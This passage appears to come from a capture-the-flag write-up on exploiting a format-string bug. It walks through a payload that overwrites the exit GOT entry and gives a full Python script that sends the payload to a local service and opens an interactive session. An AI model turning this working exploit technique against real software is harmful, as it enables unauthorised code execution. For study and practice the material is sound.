 * Write to more than one address

Let's go with the first one. By using "%100c" we will write 100
characters  (bytes). So we can just use:

```
"%4196070c" + "%<number>$n" + padding + exit_got
```

I also added a function to let interact directly with the server and
handle errors:

```
import socket
import struct

from telnetlib import Telnet

def interact(skt):

    telnet = Telnet()
    telnet.sock = skt
    interact_handle_errors(telnet)

def interact_handle_errors(telnet):
    try:
        telnet.interact()

    except UnicodeDecodeError:
        interact_handle_errors(telnet)

def read_until(skt, _bytes):
    recv = b''
    while _bytes not in recv:
        recv += skt.recv(1)
    return recv

pack = lambda x: struct.pack("Q", x)

def get_socket():
    skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    skt.connect(('localhost', 65000))
    return skt

def get_ret2vuln_payload():

    exit_got = pack(0x601040)

    ret2vuln_payload = b'%4195824c%9$n'
    ret2vuln_payload += b'A' * ( 24 - len(ret2vuln_payload) )
    ret2vuln_payload += exit_got

    return ret2vuln_payload

if __name__ == "__main__":

    skt = get_socket()

    skt.send(get_ret2vuln_payload())

    interact(skt)
```
